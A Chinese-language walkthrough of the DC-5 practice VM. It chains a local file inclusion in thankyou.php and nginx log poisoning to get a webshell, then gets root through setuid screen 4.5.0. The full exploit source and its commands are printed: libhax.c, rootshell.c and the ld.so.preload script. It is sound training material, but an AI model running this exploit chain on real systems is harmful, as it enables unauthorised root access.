# DC-5复现

# 描述

> DC-5是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 该计划是让DC-5将其提升一个档次，因此这对初学者来说可能不是很好，但对于具有中级或更好经验的人来说应该是可以的。时间会证明一切（反馈也会证明一切）。
>
> 据我所知，只有一个可利用的入口点可以进入（也没有SSH）。这个特定的入口点可能很难识别，但它就在那里。您需要寻找一些与众不同的东西（随着页面的刷新而改变的东西）。这有望提供某种关于漏洞可能涉及的内容的想法。
>
> 只是为了记录，不涉及phpmailer漏洞。:-)
>
> 此挑战的最终目标是获取根并读取唯一的标志。
>
> Linux技能和熟悉Linux命令行是必须的，基本的渗透测试工具的一些经验也是如此。
>
> 对于初学者来说，Google可以提供很大的帮助，但是您可以随时在@DCAU7上发推文给我寻求帮助，以帮助您再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。
>
> 但是，如果您真的，真的卡住了，您可以观看这个视频，其中显示了第一步。

# 实战

## 信息收集

> 确定目标靶机的IP
>
> 扫面网段并判断目标靶机的IP，最终确定IP：192.168.116.129，并发现该靶机开放了80、111端口



- 访问80端口



## 目录扫描



## 寻找漏洞

- 访问footer.php，发现年份是一直在变化的


- 然后又访问了thankyou.php，在这里发现该页面调用了footer.php


- 应该是使用php的‘include()’ 函数来包含了 ‘footer.php’ 文件，这样直接导致了LFI漏洞，下面我们来测试一下漏洞是否真的存在和看一下是否会过滤包含进来的文件



- 发现可以成功读取到 /etc/passwd文件，存在文件包含漏洞
  - 靶机服务扫描时发现靶机网站使用的是nginx服务器，通过百度nginx服务器的配置文件/etc/nginx/nginx.conf，将nginx的配置文件包含过来查看日志路径，经过仔细查看发现了nginx的日志路径 



## 漏洞利用

- 于是我们尝试包含日志文件，然后我们可以看到，日志文件会记录我们传入的参数，所以我们可以把php一句话当参数传给日志文件，然后再次尝试包含日志文件，即可使用webshell管理工具，蚁剑连接即可获得shell





- 蚁剑连接


## 反弹shell

- 进入虚拟终端反弹shell


- 切换一下shell的外壳;

```python
python -c 'import pty;pty.spawn("/bin/sh")'
```

## 提权

- 这里用的是suid提权,先用下面命令查找哪些命令具有suid权限

```
find / -perm -u=s -type f 2>/dev/null
```



> 找到一个screen-4.5.0，
>
> 用searchsploit 查找相关漏洞脚本

```
searchsploit screen 4.5.0 
```


- 找到文件位置


- 查看文件



- 保存并编译libhax.c和rootshell.c



- 编译libhax.c

- 脚本

>  gcc -fPIC -shared -ldl -o libhax.so libhax.c 

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

- 编译rootshell.c
- 脚本

>  gcc -o rootshell rootshell.c

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

> 将剩余代码保存为dc5.sh，再用vim打开编辑
>
> 保存dc5.sh文件输入 **:set ff=unix** ，否则在执行脚本文件时后出错

```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell    
```


- 将libhax.so 、rootshell 、dc5.sh三个文件通过蚁剑上传到靶机/tmp目录


- 上传成功后，执行dc5.sh

> chomd +x dc5.sh	//增加执行权限
>
> ./dc5.sh	//执行文件



- 进到root文件夹读取文件

